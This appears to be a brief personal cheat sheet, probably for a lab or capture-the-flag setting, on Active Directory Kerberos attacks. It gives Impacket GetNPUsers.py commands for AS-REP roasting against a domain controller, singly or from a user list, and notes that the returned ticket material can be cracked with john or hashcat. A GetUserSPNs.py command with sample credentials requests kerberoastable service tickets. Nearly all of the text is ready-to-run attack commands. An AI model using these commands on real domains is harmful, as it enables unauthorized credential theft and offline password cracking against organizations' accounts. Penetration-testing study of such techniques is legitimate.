 https://www.youtube.com/watch?v=pZSyGRjHNO4

This script check if the user you specify has the `Do not require Kerberos preauthentication` property set. 

(This means these accounts are vulnerable to ASREP Roasting)

---

You will need to provide a username. 
`python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/username`


If you want to provide a list of names 
```
python3 GetNPUsers.py -dc-ip 192.168.1.105 DOMAIN.local/  -usersfile users.txt
```

---

It will spit out TGT (ticket granting ticket) for that user if vulnerable. 

The TGT can actually be cracked for a password using john or hashcat

---

### find kerberoastable accounts
```
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.248.15 -request
```